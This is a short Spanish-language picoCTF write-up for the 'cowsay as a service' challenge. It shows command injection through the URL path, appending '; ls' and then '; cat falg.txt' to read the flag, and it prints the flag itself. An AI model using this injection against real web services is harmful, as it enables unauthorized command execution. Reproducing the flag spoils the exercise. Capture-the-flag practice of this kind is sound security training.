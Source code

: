 ## Objetivo
Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)
## Solución
- Al entrar a la pagina te indica que entres al siguiente url:
```bash
https://caas.mars.picoctf.net/cowsay/{message}
```
 Probamos https://caas.mars.picoctf.net/cowsay/%7BpcicoCTF%7D
```bash
 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

Le colocamos un punto y coma el comando ls, por ejemplo para ver las carpetas y archivos

https://caas.mars.picoctf.net/cowsay/picoCTF; ls

Al hacer esto obtenemos la imagen de la vaca y además de la lista de archivos que contiene
```bash
 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock

```

Visualizamos el archivo que contiene la bandera
```bash
https://caas.mars.picoctf.net/cowsay/picoCTF;%20cat%20falg.txt

 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

## Notas Adicionales
## Referencias